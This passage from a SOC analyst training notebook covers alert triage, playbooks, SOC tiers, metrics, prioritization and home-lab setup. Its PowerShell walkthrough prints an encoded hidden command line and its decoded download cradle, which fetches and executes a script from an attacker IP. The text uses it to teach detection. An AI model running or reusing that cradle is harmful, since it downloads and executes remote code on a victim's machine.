        inbox-rule creation, sensitive file access, malicious OAuth grant
```

### Step 5 — Escalate with a clean handoff

Tier 1's job here is to escalate to Tier 2 with everything needed to act, not to solve it alone. A good escalation note:

```
Escalation to Tier 2 / IR:
- Account j.doe@acme.example confirmed compromised (BEC).
- Malicious session: 198.51.100.9 (VPS, prior abuse) at 09:41, new device.
- Attacker actions: hiding inbox rule created 09:43; Payroll files
  accessed 09:44; OAuth grant to "Mail Reader Pro" 09:47.
- Legit session: 203.0.113.44, John's iPhone, Mumbai, 09:02.
- Recommend: revoke sessions, reset creds, remove inbox rule + OAuth
  grant, scope Payroll data accessed, check for other consented apps.
```

### Step 6 — Response and lessons learned

Tier 2 / IR would then **contain** (revoke all sessions, force password reset, disable the malicious OAuth app), **eradicate** (delete the inbox rule, review for other persistence), **recover** (restore normal access, confirm clean), and **document**. Lessons learned feed back: maybe tighten the OAuth app-consent policy, add a detection for "inbox rule that hides CFO mail," and lower the tolerance for sign-ins from hosting-provider ASNs.

Notice what made this triage work: **context beat the raw indicator.** The literal "impossible travel" was almost a red herring; the real tell was the VPS ASN + new device + post-login behavior. That is the detection mindset Chapter 2 formalizes. **CTF/lab tie-in:** this exact reasoning is what TryHackMe's *SOC Level 1* path and Splunk's Boss of the SOC (BOTS) datasets train — a login alert that only resolves once you pivot to what happened next.

## Part 9: SOC vs CSIRT vs Blue Team vs Purple Team

These terms overlap and get used loosely; here is the clean distinction.

- **SOC** — the continuous monitoring-and-detection function. Always-on, alert-driven.
- **CSIRT / CIRT / IRT** (Computer Security Incident Response Team) — the team that handles *confirmed incidents*. In small orgs the SOC and CSIRT are the same people; in large orgs the CSIRT is a specialized team the SOC escalates to.
- **Blue team** — the umbrella term for all defenders: SOC, CSIRT, detection engineers, threat hunters, plus the security engineering functions that harden systems. The SOC is part of the blue team, not the whole of it.
- **Red team** — authorized adversary emulation (the previous notebook). Tests the blue team's detection and response.
- **Purple team** — not a separate team but a *collaboration*: red and blue working together, where red executes techniques and blue verifies whether they detected them, closing gaps in real time. Purple teaming is one of the fastest ways to improve a SOC's coverage, and it is where the offensive knowledge from earlier notebooks becomes directly useful to the defense.



**Red team usage (as context):** a red teamer who understands this org chart writes better, more useful reports — mapping each action to whether it was detected, by which tier, and how fast, so the blue team can close the specific gap. The most valuable red-team finding is not "we got domain admin" but "we got domain admin and your SOC never saw steps 3 through 7 — here is why."

## Part 10: Detection & Defense Angle (Consolidated)

Everything above pointed here: how does a SOC actually *build and improve* its ability to detect, and where do beginners go wrong?

**Detection is layered, like defense.** Map your detections to the defense-in-depth layers and to ATT&CK (Chapter 3) so you can see your gaps. A SOC that only has firewall alerts is blind to what happens *on* the endpoint after initial access; a SOC with only endpoint alerts may miss network-level command-and-control. Coverage is a portfolio, not a single tool.

**Prioritize by attacker cost, not indicator count.** Recall the Pyramid of Pain: a thousand IP-blocklist detections are trivial for an attacker to evade (they just change IPs); a handful of behavioral detections keyed to *technique* (e.g., "LSASS memory access by a non-security process," "inbox rule hiding a VIP's mail") are painful to evade and catch whole classes of attack. Aim your best engineering effort high on the pyramid.

**Tune relentlessly, but measure both sides.** Every false positive you eliminate is real, but ask each time: could this tuning also blind me to a real attack (a false negative)? The safe pattern is to *narrow* a rule with additional context (exclude the known-benign scanner by asset tag) rather than to *broaden* the suppression (mute everything from that subnet).

**Enrichment is force-multiplication.** As the lab showed, the same raw event is noise or a clear incident depending on context. Invest in automatic enrichment (asset criticality, user role, IP/ASN reputation, threat-intel matches) — it is the cheapest way to make every analyst faster and every alert more decisive.

**Design detections for the human who reads them.** A detection is only as good as the action it enables at 3 a.m. Give alerts clear names, a one-line "why this fired," the entities involved, and a link to the playbook. A technically brilliant detection with a cryptic alert is a bad detection.

**Assume breach and hunt.** Detections catch what you already thought to look for; **false negatives are, by definition, invisible to your rules.** Proactive threat hunting (Tier 3) — forming a hypothesis from intel and searching the raw data for it — is how you find the intrusions your detections missed, and how you turn each finding into a new detection. This is the loop that keeps a SOC ahead of its adversaries rather than perpetually one step behind.

## Part 11: Playbooks, Runbooks & the Shift Handoff

Two things separate a functioning SOC from a room full of stressed people: **written procedure** and **clean handoff**. Both deserve a close look because they are where the human system either holds together or falls apart.

### Playbooks vs runbooks

The terms are used loosely, but the useful distinction:

- A **playbook** is the *decision-level* procedure for a category of alert or incident: what it is, how to triage it, what to check, when to escalate, and how to respond. It answers "what do we do when we see phishing?"
- A **runbook** is the *task-level* procedure for a specific action: the exact steps to isolate a host in the EDR, the exact commands to pull a memory image, the exact process to reset and re-enable an account. It answers "how do I actually isolate HOST-42?"

Playbooks reference runbooks. Together they make triage **repeatable and auditable**, so a new Tier 1 analyst at 3 a.m. produces the same quality of work as a senior one, and so every action taken during an incident is defensible after the fact.

### A worked playbook — suspicious sign-in

Here is a compact but realistic playbook for the alert class from the Part 8 lab. Real playbooks live in a wiki or SOAR platform; the structure is what matters.

```
PLAYBOOK: PB-IDENT-002  Suspicious / Atypical Sign-in
Severity default: Medium   Owner tier: Tier 1   SLA to first action: 15 min

TRIGGER
  - Impossible-travel, atypical-location, or new-device sign-in alert
    from the identity provider.

STEP 1  VALIDATE (is it real?)
  - Confirm both sign-in events are SUCCESS (a failed attempt is a
    different, lower-priority playbook).
  - Check for benign explanations: corporate VPN egress, cloud region,
    mobile carrier CG-NAT, known travel (check HR calendar/OOO).
  - If clearly benign (e.g., both IPs are corporate VPN) -> CLOSE (FP),
    note the reason, consider tuning to exclude the VPN range.

STEP 2  ENRICH
  - Resolve user: role, department, is the account privileged?
  - Reputation both IPs: ASN type (residential vs hosting/VPS/Tor),
    geo, threat-intel hits.
  - Device posture: managed/known vs unmanaged/new fingerprint.
  - MFA: satisfied how? (push, TOTP, legacy/basic auth bypass?)

STEP 3  INVESTIGATE POST-AUTH ACTIVITY  (the decisive step)
  - From the suspicious session, list actions in the next 60 min:
    mailbox-rule creation, mass file access, OAuth/app consent,
    permission changes, MFA-method registration, forwarding rules.
  - Any of these present -> treat as likely account compromise.

STEP 4  DISPOSITION
  - Benign true positive (real travel, known device) -> CLOSE + note.
  - False positive (VPN/region artifact) -> CLOSE + tune.
  - Malicious true positive -> raise severity, go to STEP 5.

STEP 5  ESCALATE / RESPOND
  - Escalate to Tier 2 with structured handoff (see template).
  - If pre-authorized for auto-response: revoke sessions + disable
    account immediately (runbook RB-IDENT-ISOLATE-01), then escalate.

ARTIFACTS TO CAPTURE
  - Sign-in event IDs, IPs+ASN, device IDs, list of post-auth actions,
    screenshots of any inbox rules / OAuth grants.
```

Notice the playbook encodes the Part 8 reasoning so it is not dependent on one clever analyst. **Blue team usage:** every recurring alert type should have a playbook this concrete; the act of writing it forces you to decide *in advance* what "benign" looks like, which is exactly the judgment you do not want to be improvising at 3 a.m.

### The shift handoff

SOCs run in shifts, and the seam between shifts is where incidents get dropped. A disciplined **handoff** covers: open/in-progress incidents and their current state, anything escalated and awaiting Tier 2/3, known noisy alerts to expect (e.g., a scheduled pentest, a maintenance window generating benign alerts), any degraded log sources or tooling, and pending actions with owners. A one-line "quiet shift, nothing to report" is a red flag, not reassurance — it usually means someone did not look.



## Part 12: The SOC Maturity Model

Not all SOCs are equal, and knowing where a SOC sits on a maturity curve tells you what to expect and what to improve. A common way to frame it, adapted from capability-maturity models:

| Level | Name | Characteristics |
|-------|------|-----------------|
| 0 | **Nonexistent** | No monitoring; incidents discovered by accident or by third parties. |
| 1 | **Initial / Reactive** | Some logging and antivirus; response is ad-hoc and heroic, no process. |
| 2 | **Managed** | A SIEM exists, basic detections, defined tiers, some playbooks; still noisy and understaffed. |
| 3 | **Defined** | Documented processes, tuned detections, metrics tracked, threat intel consumed, regular reporting. |
| 4 | **Proactive** | Threat hunting, detection engineering as a discipline, purple teaming, ATT&CK-mapped coverage, automation via SOAR. |
| 5 | **Optimizing** | Continuous improvement, measured detection coverage, adversary emulation informs detections, low dwell time, strong metrics culture. |

Most real-world SOCs sit at level 2–3 and aspire to 4. The path upward is not "buy more tools" — it is **process, tuning, coverage measurement, and the feedback loop.** A level-4 SOC is defined less by its budget than by the fact that every incident makes its detections better. As you go through the rest of this notebook, notice that Chapters 4–6 (SIEM/detection) push a SOC from level 2 to 3, and later chapters on hunting and detection engineering push it from 3 toward 4–5.

**Interview-relevant framing:** when asked "how would you improve our SOC?", the mature answer is rarely "add a tool." It is "measure our detection coverage against ATT&CK, find the highest-value gaps, tune out the noise that is causing alert fatigue, and build the feedback loop so incidents become detections."

## Part 13: Common Mistakes & How to Avoid Them

- **Treating the SOC as a tool, not a process.** Buying a SIEM does not create a SOC. Without triage discipline, playbooks, tuning, and a feedback loop, an expensive SIEM just generates ignored alerts. Process first.
- **Alert fatigue from untuned detections.** The single most common SOC failure. Too many false positives train analysts to rubber-stamp "close, FP," and one day they close a real one. Tune aggressively and track FP rate as a first-class metric.
- **Chasing indicators, ignoring behavior.** Blocking last week's malicious IPs feels productive but is low on the Pyramid of Pain. Attackers rotate infrastructure trivially. Invest in behavioral, technique-level detection.
- **No enrichment.** Making Tier 1 manually look up every user, asset, and IP wastes the scarcest resource (analyst attention) and slows MTTR. Automate enrichment early.
- **Gaming metrics.** Optimizing "alerts closed per hour" manufactures false negatives. Balance speed with quality and outcome metrics.
- **Sensor gaps you do not know about.** You cannot detect what you do not collect. A silently broken log source (an EDR agent that stopped reporting, a firewall that stopped forwarding) is a hole in your visibility. Monitor the *health* of your telemetry, not just its content.
- **Forgetting the business context.** Not every "critical" alert on paper is critical to the business, and vice versa. Asset criticality and data sensitivity should drive prioritization, not just the rule's static severity.
- **Poor handoffs.** A Tier 1 escalation with no context forces Tier 2 to redo the triage. Clean, structured handoff notes (like the lab's) are a force multiplier.

## Part 13b: Prioritization — Which Alert Do You Open First?

A Tier 1 analyst rarely faces one alert; they face a queue of dozens. The skill that separates good analysts from overwhelmed ones is **prioritization** — knowing which alert to open first. Two inputs drive it: the alert's inherent severity and the **criticality of what it touches**.

A useful mental model is a risk matrix of *impact* against *confidence/severity*:

| | Low-value asset | Business system | Crown-jewel asset (DC, finance, PII store) |
|---|---|---|---|
| **Low-severity alert** | Batch/close later | Note, watch | Investigate — critical asset raises the floor |
| **Medium-severity alert** | Standard triage | Prioritize | Investigate now |
| **High-severity alert** | Prioritize | Investigate now | Drop everything, likely escalate |

The key insight beginners miss: **asset criticality can outrank raw severity.** A "medium" alert on a domain controller or a payment system deserves more attention than a "high" alert on a lab VM that gets rebuilt nightly. This is exactly why enrichment tags asset criticality — so the queue can be sorted by *risk*, not just by the rule's static severity label.

Factors that raise priority in practice:

- **Asset criticality** — domain controllers, identity providers, finance systems, PII/PHI stores, source-code repos, backup infrastructure.
- **Privileged accounts** — anything touching admin, service, or break-glass accounts.
- **Confidence** — behavioral detections high on the Pyramid of Pain deserve more trust than a single IOC match.
- **Chaining** — several medium alerts on the *same* host or user in a short window often add up to one high-confidence incident (this is what correlation is for).
- **Time sensitivity** — active, ongoing activity (a live beacon, an in-progress transfer) beats a historical artifact.

**Blue team usage:** a well-run SOC encodes this into the SIEM so the queue is pre-sorted by risk score; a poorly run one makes each analyst re-derive priority by hand every shift. When you get to Chapters 4–6, notice how each platform lets you set a rule's severity *and* enrich with asset context — that combination is what makes a queue triageable.

## Part 14b: Two More Triage Walkthroughs (Pattern Practice)

Triage is pattern recognition, and one worked example is not enough to build the pattern library in your head. Here are two more, in the same reason-it-through style, covering the two other alert families you will meet most often: an **endpoint/malware** alert and a **data-exfiltration** alert.

### Walkthrough A — Suspicious PowerShell on an endpoint

```
[ALERT] Encoded PowerShell execution
severity: high
rule: edr_powershell_encodedcommand
host: WKS-2291 (user: m.singh, Marketing)
parent: winword.exe
process: powershell.exe -nop -w hidden -enc SQBFAFgAIAAo...
signed: yes (Microsoft)   network: outbound to 45.146.x.x:443
```

**Step 1 — read.** The tell is not that PowerShell ran (it runs constantly and legitimately); it is the *combination*: `-enc` (base64-encoded command, a classic obfuscation), `-w hidden` (hidden window, no reason for a legit admin task on a Marketing laptop), `-nop` (no profile), and a **parent of `winword.exe`** — Word does not normally spawn PowerShell. That parent-child relationship (`winword.exe → powershell.exe`) is a canonical macro-malware / initial-access pattern.

**Step 2 — decode the command.** Decoding the base64 (safely, in an isolated analysis environment — never paste attacker code into a live shell) reveals a download cradle:

```
IEX (New-Object Net.WebClient).DownloadString('http://45.146.x.x/a.ps1')
```

This is a **stager**: it downloads and executes a second-stage script from the attacker's server. Decode-and-read is a routine Tier 1/2 skill — the `-enc` blob is just base64 of a UTF-16LE string.

**Step 3 — enrich & pivot.** `45.146.x.x` is a hosting provider with threat-intel hits; the domain/IP was first seen days ago. Pivot on the host: did `a.ps1` run? Any new scheduled task, service, or registry Run key (persistence)? Any lateral connections to other hosts?

**Step 4 — disposition.** Malicious true positive, initial access via a malicious Office document (**T1566 phishing → T1059.001 PowerShell**, in the ATT&CK terms of Chapter 3). Severity stays HIGH.

**Step 5 — respond.** Isolate WKS-2291 in the EDR (contain), kill the process tree, capture the command line and any downloaded artifacts, then hunt the second-stage IOC across every other endpoint (was m.singh patient zero, or one of many?). Escalate with the decoded command and the parent-process chain in the handoff.

The lesson repeats: **it was not the tool (PowerShell is benign) but the behavior and context (encoded, hidden, Office-spawned, reaching a bad IP).** This is why Chapter 3's technique-level thinking beats indicator-only thinking.

### Walkthrough B — Possible data exfiltration

```
[ALERT] Large outbound transfer to file-sharing service
severity: medium
rule: dlp_large_upload_external
user: r.kaur (Engineering)   host: LAP-1180
dest: mega.nz   bytes_out: 4.2 GB over 25 min   time: 02:10 local
```

**Step 1 — read & question.** 4.2 GB uploaded to a personal file-sharing site at 2 a.m. from an engineer's laptop. Questions: is this the user or a hijacked session? Is 4.2 GB normal for this person? What was uploaded — source code, customer data, or a Steam backup?

**Step 2 — enrich.** Is `r.kaur` currently traveling / working odd hours (HR calendar)? Is the sign-in on LAP-1180 from a known device and normal location? Any recent alerts on this user or host? Does DLP have visibility into *what* was uploaded (file classifications)?

**Step 3 — investigate.** Correlate with endpoint logs: which process made the upload (browser vs a script vs `rclone`)? What files were read just before? If the files are classified `source-code` or `customer-PII`, severity jumps. If it was the user's browser uploading personal photos on a break, that is a policy conversation, not an incident.

**Step 4 — disposition.** This one genuinely *depends* on the evidence — it could be a benign policy violation, insider data theft, or an attacker exfiltrating via a legitimate cloud service (a very common technique because it blends in). Do not force a disposition before the evidence supports it; "needs more info" is a valid interim state, and escalating an ambiguous-but-sensitive case is correct.

**Step 5 — respond.** If sensitive data is confirmed leaving, contain (block the destination, revoke sessions, involve legal/HR for insider cases), scope exactly what left (notification obligations depend on it), and document meticulously — data-theft incidents frequently become legal matters where your notes are evidence.

These three walkthroughs (login, endpoint, exfil) cover the backbone of Tier 1 work. Reuse the same skeleton every time: **read → enrich → pivot to what happened next → disposition honestly → escalate cleanly.**

## Part 14c: Key Terms Glossary

A compact reference for the vocabulary introduced in this chapter. You will see all of these again.

- **Alert** — a notification generated when telemetry matches detection logic.
- **Alert fatigue** — desensitization from too many (often false-positive) alerts.
- **Assume breach** — operating philosophy that the attacker is already inside.
- **Blue team** — all defenders (SOC, IR, detection engineering, hunting, hardening).
- **CIA triad** — Confidentiality, Integrity, Availability; the goals security protects.
- **Containment** — stopping an incident from spreading (isolate host, disable account).
- **CSIRT** — Computer Security Incident Response Team; handles confirmed incidents.
- **Detection engineering** — the discipline of building and tuning detection content.
- **Defense-in-depth** — layered, independent controls so no single failure is fatal.
- **Dwell time** — how long an attacker is present before being detected.
- **EDR** — Endpoint Detection and Response; deep endpoint telemetry + response.
- **Eradication** — removing the attacker's foothold (malware, persistence, accounts).
- **Enrichment** — adding context (user, asset, reputation, intel) to an alert.
- **False negative (FN)** — a real attack that produced no alert; the dangerous miss.
- **False positive (FP)** — an alert that fired on benign activity.
- **IOC** — Indicator of Compromise (malicious IP, domain, hash, etc.).
- **MDR** — Managed Detection and Response; outsourced monitoring + response.
- **MTTD / MTTA / MTTR** — mean time to detect / acknowledge / respond.
- **MSSP** — Managed Security Service Provider.
- **Playbook** — decision-level procedure for handling an alert/incident class.
- **Purple team** — red and blue collaborating to measure and close detection gaps.
- **Pyramid of Pain** — ranking of indicators by how costly they are to change.
- **Recovery** — restoring systems to a trusted, operational state after an incident.
- **Runbook** — task-level procedure for a specific action.
- **SIEM** — Security Information and Event Management; central log/analytics/alerting.
- **SOAR** — Security Orchestration, Automation and Response; playbook automation.
- **SOC** — Security Operations Center; the monitoring/detection/response function.
- **TIP** — Threat Intelligence Platform.
- **Triage** — rapidly assessing an alert's nature, severity, and disposition.
- **True positive (TP)** — an alert correctly identifying malicious activity.
- **TTP** — Tactics, Techniques, and Procedures; attacker behavior (top of the pyramid).
- **XDR** — Extended Detection and Response; correlated detection across domains.
- **Zero Trust** — never trust, always verify; authenticate/authorize every request.

## Part 13c: Preview — The Data Sources You Will Live In

Chapter 2 covers this in depth, but it helps to see the landscape now, because every detection you ever write is constrained by what your sources can see. A quick tour, organized by defense-in-depth layer:

**Identity layer**

- Azure AD / Entra ID sign-in logs — who logged in, from where, on what device, MFA result.
- Active Directory security events — logons (4624/4625), Kerberos tickets (4768/4769), group changes (4728/4732), account lockouts (4740).
- Okta / identity-provider system logs — SSO events, factor enrollment, policy changes.

**Endpoint layer**

- EDR telemetry — process creation, command lines, file writes, network connections, module loads, registry changes.
- Windows Security / System / Application event logs — the native record of host activity.
- Sysmon — high-fidelity, configurable endpoint logging (process creation with hashes, network connections, image loads) — a blue-team favorite covered in Chapter 7.
- Linux auditd / syslog — process execution, authentication, file access on Unix hosts.

**Network layer**

- Firewall logs — allowed/denied connections, source/destination, ports, bytes.
- Proxy / web gateway logs — outbound HTTP(S) requests, URLs, categories (great for C2 and exfil detection).
- DNS logs — every name resolved; superb for catching malware domains and DNS tunneling.
- IDS/IPS and NDR — signature and behavioral alerts on network traffic; NetFlow for volume/flow analysis.
- VPN logs — remote-access sessions.

**Application & cloud layer**

- Web server logs (access/error) — every HTTP request; the raw material for web-attack detection.
- Database audit logs — queries, especially against sensitive tables.
- Cloud audit logs — AWS CloudTrail, Azure Activity, GCP Audit — the control-plane record of who did what in the cloud.
- SaaS audit logs — Microsoft 365 / Google Workspace admin and mailbox activity (inbox rules, OAuth grants, sharing).

**Email layer**

- Mail gateway logs — inbound/outbound mail, spam/phishing verdicts, attachment detonation results.
- Mailbox audit — rule creation, forwarding, delegate access (the BEC tells from the Part 8 lab).

The single most important habit this preview should instill: **before you try to detect something, ask which source would even see it.** You cannot detect lateral movement over SMB if you are not collecting the relevant Windows or network logs; you cannot catch a malicious inbox rule without mailbox audit logging enabled. Detection is downstream of collection — which is exactly why Chapter 2 is dedicated to it.

## Part 13d: Rapid-Fire Concept Check

Cover the right-hand side and test yourself. If any answer is fuzzy, reread the relevant Part.

- What are the three SOC tiers, and what does each do? → T1 triages; T2 investigates/contains; T3 hunts/leads IR/engineers detections.
- Difference between a false positive and a benign true positive? → FP: the rule misfired, nothing happened. Benign TP: something real happened but it was authorized.
- Which metric measures how long attackers stay hidden? → Dwell time (mirror of MTTD).
- Name the eight defense-in-depth layers. → People/Policy, Physical, Perimeter, Internal Network, Endpoint, Application, Data, Identity.
- What does each letter of CIA stand for? → Confidentiality, Integrity, Availability.
- What is the SOC's central platform called and what does it do? → SIEM: aggregates, normalizes, correlates, and alerts on telemetry.
- Which tool automates repetitive triage/response? → SOAR (via playbooks).
- Where on the Pyramid of Pain should good detections aim? → High — tools and TTPs, not hashes/IPs.
- What is the difference between SOC and CSIRT? → SOC monitors continuously; CSIRT handles confirmed incidents.
- What is purple teaming? → Red and blue collaborating to measure and close detection gaps.
- The four NIST response phases after preparation? → Detection & Analysis, Containment, Eradication, Recovery (then lessons learned).
- Why can asset criticality outrank alert severity? → A "medium" on a domain controller can be higher risk than a "high" on a disposable VM.
- What is the danger of a false negative? → It is invisible to your rules by definition; only hunting finds it.
- What must exist before you can detect an activity? → Collection of a source that can actually see it.

## Part 13e: How Real Breaches Map to These Concepts

Abstract concepts stick better when you see them in real incidents. These are well-documented, public breach *patterns* (generalized — the point is the lesson, not finger-pointing), each illustrating a SOC concept from this chapter.

**Long dwell time and the cost of missed detection.**
In many major breaches, attackers remained undetected for *months* — dwell times of 100+ days were common in historical reports. The lesson is the false-negative problem made concrete: preventive controls failed, and because detection-and-response was weak, no alert fired for a long time. What eventually caught them was often a third party (a bank, a researcher) — the worst way to learn you are breached. This is the single strongest argument for the "assume breach" mindset and for investing in detection and hunting, not just prevention.

**The living-off-the-land problem.**
Modern intrusions increasingly avoid custom malware, instead abusing legitimate tools already on the system — PowerShell, WMI, PsExec, `certutil`, scheduled tasks. Signature-based antivirus sees nothing because nothing is "malware." Only **behavioral** detection (unusual parent-child process chains, encoded commands, admin tools run by non-admins) catches it — the exact reasoning from the Part 14b PowerShell walkthrough, and the exact reason detections should aim high on the Pyramid of Pain.

**Identity as the new perimeter.**
A large share of cloud-era breaches begin not with an exploit but with a **valid login** — stolen or phished credentials, MFA fatigue, or token theft. There is no "hack," just an attacker signing in as a real user, which is why identity telemetry (sign-in logs, impossible-travel, new-device, post-auth behavior) is now front-line detection, and why the Part 8 lab centered on a login rather than an exploit.

**Supply-chain and trust abuse.**
Some breaches propagate through trusted software updates or third-party access, bypassing the perimeter entirely because the malicious activity arrives *inside* a trusted channel. The defensive lesson maps directly to zero trust ("verify every request, even from inside") and to monitoring the behavior of trusted components, not just their identity.

**Ransomware's compressed timeline.**
Ransomware crews have shortened the time from initial access to encryption from weeks to sometimes hours. This attacks integrity and availability (CIA), and it makes **MTTD and MTTR life-or-death** metrics: detect and contain during the reconnaissance/lateral-movement phase and you save the business; miss it until encryption and you are in recovery-from-backups mode. Every hour of dwell time is an hour the attacker uses to spread.

The through-line across all of them: **prevention is necessary but insufficient; the organizations that fared best were the ones whose SOC detected and contained early.** That is the entire justification for the discipline this notebook teaches.

## Part 13f: Build a Home SOC Lab (So the Rest of the Notebook Is Hands-On)

You will get far more from Chapters 4–7 if you have somewhere to actually run queries and generate telemetry. This section stands up a minimal, free home SOC lab. Everything here runs on systems you own — that is the whole point; never point these tools at anything you are not authorized to monitor.

### Option 1 — Security Onion (batteries-included)

Security Onion is a free Linux distribution that bundles a SIEM-like stack (Elasticsearch, Kibana, Suricata IDS, Zeek network monitoring, and the Elastic Agent) into one appliance. It is the fastest way to get a working analyst console.

```bash
# On a VM with >= 4 CPU / 16 GB RAM / 200 GB disk (Import or Standalone mode)
# 1. Download the ISO from securityonion.net and boot it in VirtualBox/VMware/Proxmox
# 2. Run the guided installer
sudo so-setup            # launches the setup wizard
# choose: Standalone (for a lab) -> set management NIC -> set sniffing NIC
# 3. After setup, browse to the console
#    https://<so-ip>/   (Security Onion Console / SOC)
```

Once up, you get a real alert queue (from Suricata), full packet/flow visibility (Zeek), and Kibana dashboards — a legitimate place to practice triage. Import a PCAP to generate activity:

```bash
sudo so-import-pcap /path/to/sample.pcap   # replays a capture through the sensors
```

### Option 2 — ELK + Wazuh (build it yourself, deeper learning)

Chapter 6 covers this stack in detail; a minimal Docker version is a great learning exercise because you see each component:

```bash
# Wazuh single-node lab via the official docker-compose
git clone https://github.com/wazuh/wazuh-docker.git -b v4.x
cd wazuh-docker/single-node
docker compose -f generate-indexer-certs.yml run --rm generator
docker compose up -d
# Dashboard: https://localhost:443  (default creds are in the compose .env — change them)
```

Then deploy a Wazuh agent on a Windows or Linux VM to start shipping real host telemetry (auth events, file-integrity changes, process data) into the manager.

### Generate benign attack telemetry safely

An empty SIEM teaches nothing. Generate *safe, lab-scoped* activity so your detections have something to fire on. **Atomic Red Team** runs small, reversible technique tests mapped to MITRE ATT&CK (Chapter 3):

```powershell
# In an ISOLATED Windows lab VM only — never on a production/host machine
Install-Module -Name invoke-atomicredteam -Scope CurrentUser
Import-Module invoke-atomicredteam
# Simulate encoded PowerShell (T1059.001) so your detection can catch it
Invoke-AtomicTest T1059.001 -TestNumbers 1
Invoke-AtomicTest T1059.001 -Cleanup     # always clean up after
```

For a full intentionally-vulnerable enterprise to attack and defend, **DetectionLab** and **GOAD (Game of Active Directory)** stand up a small AD environment with logging pre-wired — ideal once you reach the Windows-log chapter.

### The learning loop for this notebook



Run that loop with each technical chapter and the concepts stop being abstract. You will have *made* the alert, *caught* it, and *tuned* it — which is exactly the detection-engineering feedback loop a real SOC lives by.

## Part 14: Final Revision / Summary

A SOC is a **function**, not a room: continuous monitoring, detection, triage, response, and improvement, running as a learning loop. It is staffed in **tiers** — Tier 1 triages the alert queue, Tier 2 investigates and responds, Tier 3 hunts, leads major incidents, and engineers detections — supported by managers, threat intel, automation, and forensics. Nearly everyone starts at Tier 1, and the triage skill built there underlies everything else.

Every alert travels the same **lifecycle**: generation → enrichment → triage → investigation → response → closure and lessons learned, feeding improvements back into detection. You classify each alert as a true positive, false positive, true negative, or false negative; the daily enemy is false-positive-driven **alert fatigue**, and the hidden enemy is the **false negative**, which threat hunting exists to find. SOCs are measured by **MTTD, MTTA, MTTR, dwell time, FP rate, and coverage** — speed balanced against quality and outcomes.

The whole discipline sits on **defense-in-depth**: independent layers (people, physical, perimeter, network, endpoint, application, data, identity), each simultaneously a barrier *and* a sensor. Those layers protect the **CIA triad** — confidentiality, integrity, availability. Modern refinements — zero trust, assume breach, the Pyramid of Pain — sharpen where you put effort. The SOC runs on a **stack**: SIEM (the nervous system), EDR (deep endpoint visibility and response), SOAR (automation for the 24/7 problem), and a TIP (threat-intel context). The lab showed the core skill: **context beats raw indicators** — enrich, pivot to what happened next, disposition honestly, escalate cleanly. Finally, the SOC is one part of the broader **blue team**, escalates to a **CSIRT**, is tested by the **red team**, and improves fastest through **purple-team** collaboration.

## Part 15: Cheat Sheet / Quick Reference

**Tiers**
- Tier 1 — triage the queue, decide FP/benign/malicious, escalate or close.
- Tier 2 — investigate, scope, contain confirmed incidents.
- Tier 3 — threat hunt, lead major IR, engineer & tune detections.

**Alert dispositions**
- TP = real & malicious · FP = fired but benign · TN = correctly quiet · FN = missed real attack (the dangerous one).

**Alert lifecycle**
- Generate → Enrich → Triage (T1) → Investigate (T2) → Respond (contain/eradicate/recover) → Close + Lessons Learned.

**Response phases (NIST 800-61)**
- Preparation → Detection & Analysis → Containment → Eradication → Recovery → Post-Incident (Lessons Learned).

**Key metrics**
- MTTD (detect) · MTTA (acknowledge) · MTTR (respond/resolve) · Dwell time · FP rate · Coverage. All the time-based ones: lower is better; coverage: higher is better.

**Defense-in-depth layers (out → in)**
- People/Policy → Physical → Perimeter → Internal Network → Endpoint → Application → Data → Identity. Each layer = barrier + sensor.

**CIA triad**
- Confidentiality (keep secret) · Integrity (keep unaltered) · Availability (keep accessible).

**Stack**
- SIEM (aggregate/detect) · EDR (endpoint visibility/response) · SOAR (automate) · TIP (intel) · Case mgmt (track).

**Teams**
- SOC (monitor) · CSIRT (respond to incidents) · Blue (all defenders) · Red (emulate adversary) · Purple (red+blue collaborate).

**Pyramid of Pain (low → high attacker cost)**
- Hashes → IPs → Domains → Network/Host artifacts → Tools → TTPs. Detect as high as you can.

**Triage mnemonic — "CETDE"**
- **C**ontext (who/what/where) → **E**nrich (reputation, role, asset) → **T**imeline (what happened next) → **D**isposition (TP/FP/benign) → **E**scalate cleanly.

**Prioritization**
- Asset criticality can outrank raw severity. A medium on a DC beats a high on a throwaway VM.
- Chained mediums on one host/user often equal one high-confidence incident.

**Home-lab quick start**
```bash
# Security Onion (all-in-one)
sudo so-setup                     # guided install (Standalone for lab)
sudo so-import-pcap sample.pcap   # replay a capture to generate alerts

# Wazuh + ELK (docker single-node)
git clone https://github.com/wazuh/wazuh-docker.git -b v4.x
cd wazuh-docker/single-node && docker compose up -d

# Generate ATT&CK-mapped telemetry (isolated lab VM only)
Invoke-AtomicTest T1059.001 -TestNumbers 1
Invoke-AtomicTest T1059.001 -Cleanup
```

**Disposition decision (fast path)**
- Rule fired + nothing happened → False Positive (tune).
- Rule fired + real but authorized → Benign True Positive (note the ticket).
- Rule fired + real + unauthorized → Malicious True Positive (escalate).
- Nothing fired + attack happened → False Negative (hunt finds these).

## Part 16: Practice Labs & Resources

Train these exact skills, not generic theory:

- **TryHackMe — SOC Level 1 path** and the *Introduction to SIEM*, *Cyber Kill Chain*, and *Pyramid of Pain* rooms. The single best hands-on introduction to the concepts in this chapter, with real triage exercises.
- **TryHackMe — *Security Operations* / *SOC Fundamentals*** rooms for the roles, tiers, and lifecycle covered here.
- **Splunk Boss of the SOC (BOTS)** free datasets — practice triaging real alerts and pivoting from a login to subsequent activity, exactly like the Part 8 lab. Sets you up perfectly for Chapter 4.
- **Blue Team Labs Online (BTLO)** — free and paid triage/investigation challenges that mirror real Tier 1/Tier 2 work.
- **LetsDefend.io** — a browser-based simulated SOC with a live alert queue; the closest thing to sitting a real Tier 1 shift.
- **CyberDefenders.org** — blue-team CTF-style challenges (log analysis, IR) that reinforce the detection mindset.
- **MITRE ATT&CK Navigator** (attack.mitre.org) — start getting familiar; Chapter 3 uses it heavily to map coverage.
- **Reading:** NIST SP 800-61 (Computer Security Incident Handling Guide) for the response lifecycle, and David Bianco's original "Pyramid of Pain" post for the indicator hierarchy.
- **Hands-on lab build:** stand up **Security Onion** or **Wazuh + ELK** (Part 13f) and run **Atomic Red Team** tests against an isolated VM to generate your own alerts to triage.
- **DetectionLab / GOAD** — pre-instrumented lab environments for practicing detection and response against realistic Windows/AD activity once you reach Chapter 7.

In the next chapter we go one layer deeper into the raw material of all detection: **logs, telemetry, and data sources** — what each source can and cannot see, how events are structured, and how to think about visibility before you ever write a detection.

### Practice questions

Work these before reading the answer notes; the reasoning matters more than the label.

1. An alert fires for "PsExec execution on FILESERVER01." Enrichment shows the source account is a known IT admin, the time matches a scheduled maintenance window, and a change ticket exists. What disposition do you assign, and why is this *not* simply a false positive?
